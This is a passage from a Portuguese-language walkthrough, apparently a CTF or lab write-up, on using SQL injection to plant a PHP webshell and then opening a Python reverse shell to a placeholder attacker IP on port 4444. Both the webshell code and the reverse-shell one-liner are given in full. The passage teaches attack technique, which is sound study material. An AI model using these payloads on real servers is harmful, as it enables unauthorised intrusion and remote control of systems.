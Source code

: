 - `-v`: modo verboso
    
- `-p 4444`: porta onde você vai escutar
    

---

### Passo 4 – Executar a reverse shell via webshell

Chame sua payload pelo navegador usando sua webshell `cmd.php`:

```
http://$site/includes/cmd.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## **Por que conseguimos essa conexão reversa com o servidor?**

Tudo começa com a **injeção SQL**. O servidor web usa consultas SQL inseguras, permitindo que você injete código. Nesse caso, você usou a injeção para **criar um arquivo PHP malicioso** (`cmd.php`) com conteúdo como:

```php
<?php system($_GET['cmd']); ?>
```

Esse arquivo virou uma **webshell**: uma página PHP que executa comandos no servidor quando você acessa:

```
http://target/includes/cmd.php?cmd=whoami
```

---

## **Como a conexão reversa funciona**

A reverse shell em Python faz com que o **servidor inicie uma conexão com a sua máquina**, como se fosse um cliente. Isso evita filtros de firewall que bloqueiam conexões de fora para dentro (como SSH). O servidor “liga” para você.

A linha de código:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("SEU_IP",4444));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
import pty; pty.spawn("sh")'
```

Faz o seguinte:

1. Cria um socket de rede.
    
2. Conecta à sua máquina na porta 4444.
    